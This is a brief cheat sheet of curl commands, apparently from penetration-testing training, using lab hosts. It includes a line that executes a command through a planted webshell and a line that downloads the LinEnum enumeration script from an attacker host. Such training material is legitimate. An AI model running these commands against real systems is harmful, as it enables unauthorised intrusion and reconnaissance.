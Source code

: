 - `curl -IL https://www.inlanefreight.com` – Grab headers  
- `curl 10.10.10.121/robots.txt` – Check for robots.txt  
- `curl http://SERVER_IP:PORT/shell.php?cmd=id` – Execute webshell  
- `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` – Download file  
